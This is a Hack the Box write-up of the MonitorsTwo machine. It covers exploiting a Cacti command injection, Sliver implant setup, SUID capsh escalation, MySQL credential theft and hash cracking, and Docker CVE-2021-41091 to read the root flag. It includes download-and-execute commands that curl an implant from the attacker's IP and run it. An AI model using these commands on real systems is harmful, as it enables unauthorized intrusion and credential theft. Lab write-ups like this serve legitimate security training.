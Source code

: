 ```yaml
---
title: "HTB • MonitorsTwo"
tags:
  - "Beginner"
  - "Linux"
  - "Easy Difficulty"
  - "Web"
  - "Hash Cracking"
  - "MySQL"
  - "Pivoting"
  - "CVE"
  - "Docker"
  - "SUID"
  - "Database"
excerpt: "MonitorsTwo is an easy Linux machine on Hack the Box that covers topics including Common Vulnerabilities & Exposures (CVEs), Linux privilege escalation, Docker, SQL, and pivoting"
categories:
  - "Writeups"
  - "Hack the Box Machines"
img_path: "/assets/img/post/htb-machines-monitorstwo/"
---
```


MonitorsTwo is an easy, Linux-based [**Hack the Box**](https://app.hackthebox.com/machines/MonitorsTwo) machine created by [**TheCyberGeek**](https://app.hackthebox.com/users/114053) that covers topics including Common Vulnerabilities and Exposures (CVEs), Linux privilege escalation, Docker, and pivoting. We initially exploited a vulnerable Cacti installation on the target's web server to establish an implant in a Docker container. From within this container, we found an executable with insecure SUID privileges allowing us to elevate to root. We found the entrypoint program in the container with credentials for a MySQL service. This MySQL server contained a password hash that we were able to crack and use to login to the host machine via SSH. Once logged in, we utilized our privileged access in the Docker container to exploit CVE-2021-41091 and read the root flag.

## Initial Reconnaissance

For the initial reconnaissance phase, we began by setting up our environment and conducting a TCP port scan using a custom nmap wrapper script [from here](https://github.com/bryanmcnulty/ctf-scripts/blob/main/recon/active/ctf-portscan.sh). This script aids in quickly and reliably scanning for open ports on the target machine.

```zsh
# Set up environment variables and run a port scan
echo rhost="10.10.11.211" >> .env
echo lhost="10.10.14.2" >> .env # Our HTB VPN client IP address
. ./.env && ctfscan $rhost
```
{:file="bryan@red_team ➤ zsh" .nolineno}

Two open ports were identified:

| Transport | Port | Service | Product      | Version                 |
|:----------|:-----|:--------|:-------------|:------------------------|
| TCP       | 22   | SSH     | OpenSSH      | 8.2p1 Ubuntu 4ubuntu0.5 |
| TCP       | 80   | HTTP    | nginx        | 1.18.0                  |

## Web Exploitation

The web service running on port 80 was identified as **Cacti 1.2.22**.

![Web index](web-cacti.png)

Using [cvedetails.com](https://www.cvedetails.com/) we were able to find an applicable unauthenticated command injection vulnerability tracked as [**CVE-2022-46169**](https://www.cvedetails.com/cve/CVE-2022-46169/). We then made [a simple exploit script](https://gist.github.com/bryanmcnulty/df8ee3e77bc87c8b31a244e8cbc688cd) based on information from the detailed CVE description.


### Exploitation

We first set up a [Sliver](https://github.com/BishopFox/sliver) listener and generated a compatible implant, then we served the implant over HTTPS.

```shell
mtls -L 10.10.14.2 -l 8443
generate -o linux -m 10.10.14.2:8443 -e -s implant.elf
websites add-content -w monitors-two -c implant.elf -p /u5j7_t
https -L 10.10.14.2 -l 443 -w monitors-two
```
{:file="bryan@red_team ➤ sliver-client" .nolineno}

We used the exploit to download and execute our implant.

```bash
python3 ./CVE-2022-46169.py http://$rhost -c "sh -c 'f=/tmp/ywmkRg;curl https://$lhost/u5j7_t -ko\$f;chmod +x \$f;\$f'"
```
{:file="bryan@red_team ➤ zsh" .nolineno}

## Docker Container

It was determined that we were inside of a Docker container due to the presence of `/.dockerenv`{:.filepath}. With this in mind, we began looking for a path to root within the container.

### Privilege Escalation

While conducting local enumeration, we used `find` to search for executables with the SUID bit from our implant session.

```shell
execute -t 8 -o sh -c 'find / -perm -u=s 2>/dev/null'
```
{:file="bryan@red_team ➤ sliver-client ➤ www-data@50bca5e748b0" .nolineno}

An unusual SUID executable was found at `/sbin/capsh`{:.filepath}. The permissions on this executable were exploited using the technique outlined in [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/) to execute our sliver implant as root.

```shell
execute capsh --uid=0 --gid=0 -- -c /tmp/ywmkRg
```
{:file="bryan@red_team ➤ sliver-client ➤ www-data@50bca5e748b0" .nolineno}

### Privileged Enumeration

Inside the container, the entrypoint script was located at `/entrypoint.sh`{:.filepath}. Credentials for the MySQL root user on _db_ were found in this script.

#### MySQL

We forwarded the remote MySQL service port to localhost for easy access, then used the credentials from `/entrypoint.sh`{:.filepath} to connect.

```shell
portfwd add -b 127.0.0.1:13306 -r db:3306
```
{:file="bryan@red_team ➤ sliver-client ➤ root@50bca5e748b0" .nolineno}
```zsh
# Access MySQL server from forwarded port
mysql --host=127.0.0.1 --port=13306 --user=root --password=$MYSQL_ROOT_PW
```
{:file="bryan@red_team ➤ zsh" .nolineno}

We then found a single non-standard database called "cacti". Since the database was likey related to the Cacti installation on port 80, we inferred that it might store the hashes for each Cacti user.

```sql
show databases; -- "cacti" is the only non-standard db
use cacti; -- We'll work with the cacti db
show tables; -- Found "user_auth" table. Any hashes?
select * from user_auth; -- hashes for user::admin and user::marcus
```
{:file="bryan@red_team ➤ mysql ➤ root@db" .nolineno}

Two users, "admin" and "marcus" existed in the *user_auth* table, each with a corresponding BCrypt hash. We used [hashes.com](https://hashes.com/en/decrypt/hash) to successfully recover the password for _marcus_.

![hashes.com results](container-mysql-bcrypt-hashes.png)

With the username "marcus" and the recovered password, we were able to login to the target via SSH.

## Host Privilege Escalation

First, we'll establish another sliver session, this time on the host system.

```shell
# Establish implant as "marcus"
ssh marcus@$rhost "sh -c 'f=/tmp/9LRZln;curl https://$lhost/u5j7_t -ko\$f;chmod +x \$f;\$f'"
```
{:file="bryan@red_team ➤ zsh" .nolineno}

We initially searched for simple and common privilege escalation routes, but to no evail. Eventually we came across the user mailbox at `/var/mail/marcus`{:.filepath} which held an message detailing a few CVEs possibly affecting the machine.

- CVE-2021-33033: Linux kernel use-after-free vulnerability.
- CVE-2020-25706: Cacti Cross-Site Scripting (XSS) vulnerability.
- CVE-2021-41091: Docker Engine directory traversal and unauthorized program execution.

### CVE-2021-41091

The email mentioned a directory traversal vulnerability affecting Docker Engine tracked as [CVE-2021-41091](https://www.cvedetails.com/cve/CVE-2021-41091/). We studied the CVE description for this vulnerability in search of additional details.

> Moby is an open-source project created by Docker to enable software containerization. A bug was found in Moby (Docker Engine) where the data directory (typically /var/lib/docker) contained subdirectories with insufficiently restricted permissions, allowing otherwise unprivileged Linux users to traverse directory contents and execute programs. **When containers included executable programs with extended permission bits (such as setuid), unprivileged Linux users could discover and execute those programs. When the UID of an unprivileged Linux user on the host collided with the file owner or group inside a container, the unprivileged Linux user on the host could discover, read, and modify those files.** This bug has been fixed in Moby (Docker Engine) 20.10.9. Users should update to this version as soon as possible. Running containers should be stopped and restarted for the permissions to be fixed. For users unable to upgrade limit access to the host to trusted users. Limit access to host volumes to trusted containers.

We ensured that the Docker Engine installation was vulnerable before any exploitation attempts. The installed version was found to be 20.10.5, which is vulnerable to CVE-2021-41091.

```shell
execute -t 5 -o docker --version
```
{:file="bryan@red_team ➤ sliver-client ➤ marcus@monitorstwo" .nolineno}

#### Exploitation

In the root implant session within the Docker container, we added the SUID and SGID bits for `/bin/bash`{:.filepath} as explained in the CVE description.

```shell
chmod /bin/bash 6755
```
{:file="bryan@red_team ➤ sliver-client ➤ root@50bca5e748b0" .nolineno}

On the host filesystem, we located the container's mount point and used the SUID bash executable to spawn another implant session. This new session was marked with the username "marcus", but had effective UID and GID of root. This meant we could still perform privileged actions like reading the root flag at `/root/root.txt`{:.filepath}.

```shell
execute -t 5 -o bash -c 'mount | grep ^overlay | cut -d\  -f3'
ls /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged/bin/bash
ls /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash
execute /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -pc /tmp/9LRZln
```
{:file="bryan@red_team ➤ sliver-client ➤ marcus@monitorstwo" .nolineno}

```shell
cat /root/root.txt
```
{:file="bryan@red_team ➤ sliver-client ➤ marcus@monitorstwo (EUID=0)" .nolineno}
